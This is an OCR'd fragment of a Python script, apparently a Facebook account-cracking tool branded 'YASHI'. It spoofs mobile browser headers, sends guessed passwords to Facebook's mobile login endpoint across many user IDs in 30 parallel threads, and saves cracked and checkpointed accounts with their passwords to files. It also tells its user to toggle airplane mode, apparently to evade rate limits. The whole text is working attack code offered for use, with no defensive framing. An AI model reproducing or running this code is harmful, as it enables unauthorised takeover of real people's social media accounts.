                 session.headers.update({'Host': 'mbasic.facebook.com', 'viewport-width': '980', 'sec-ch-ua': '" Not A;Brand";v="99", "Chromium";v="100", "Google Chrome";v="100"', 'sec-ch-ua-mobile': '?1', 'sec-ch-ua-platform': 'Android', 'sec-ch-prefers-color-scheme': 'light', 'dnt': '1', 'upgrade-insecure-requests': '1', 'user-agent': sua, 'accept': 'text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,image/apng,*/*;q=0.8,application/signed-exchange;v=b3;q=0.9', 'sec-fetch-site': 'none', 'sec-fetch-mode': 'navigate', 'sec-fetch-user': '?1', 'sec-fetch-dest': 'document', 'accept-encoding': 'gzip, deflate, br', 'accept-language': 'en-PK,en-GB;q=0.9,en-US;q=0.8,en;q=0.7'})
                complete = session.post('https://mbasic.facebook.com/login/device-based/validate-password/?shbl=0',data=idpass,allow_redirects=False)
                if 'c_user' in session.cookies.get_dict():
                    print(f"\r{R} [YASHI-OK] {sid} | {ps} {S}")
                    oks.append(sid)
                    open('/sdcard/YASHI_OK.txt','a').write(sid+'|'+ps+'\n')
                    break
                elif 'checkpoint' in session.cookies.get_dict():
                    #print(f"\r{A} [YASHI-CP] {sid} | {ps} {S}")
                    cps.append(sid)
                    open('/sdcard/YASHI_CP.txt','a').write(sid+'|'+ps+'\n')
                    break
                else:
                    continue
                #time.sleep(31)
            
            loop+=1
        except requests.exceptions.ConnectionError:
             self.methodD(sid, name, ps)
            
    def pasw(self):       
            pw = []
            clear()
            print('Put limit between 1 to 30')
            sl = int(input('How many password do you want to add?: '))
            os.system("clear")
            print(logo)
            print(f'{S} [Example: first123,last1122,firstlast,last,ETC]')
            print('')
            if sl =='':
                print('\n Put limit between 1 to 30')
            elif sl > 20:
                print('\nPassword limit Should Not Be Greater Than 30')
            else:
                for sr in range(sl):
                    pw.append(input(f'Password {sr+1}: '))
            os.system("clear")
            print(logo)
            
            print(f"\r{A}Use flight (airplane) mode before use {S}")
            print(47*"-")
            print(f'{S} Total IDs : %s ' % len(self.id))
            print(f'{S} Cracking Started...')
            print(47*"-")
            with yashiYASHI(max_workers=30) as YASHIworld:
                for zsb in self.id:
                   try:
                       uid, name = zsb.split('|')
                       sz = name.split(' ')
                       if len(sz) == 3 or len(sz) == 4 or len(sz) == 5 or len(sz) == 8:
                           pwx =  pw
                       else:
                            pwx =  pw
                            if 'methodA' in methods:
                                YASHIworld.submit(self.methodA, uid, name, pwx)
                            elif 'methodB' in methods:
                                YASHIworld.submit(self.methodB, uid, name, pwx)
                            elif 'methodC' in methods: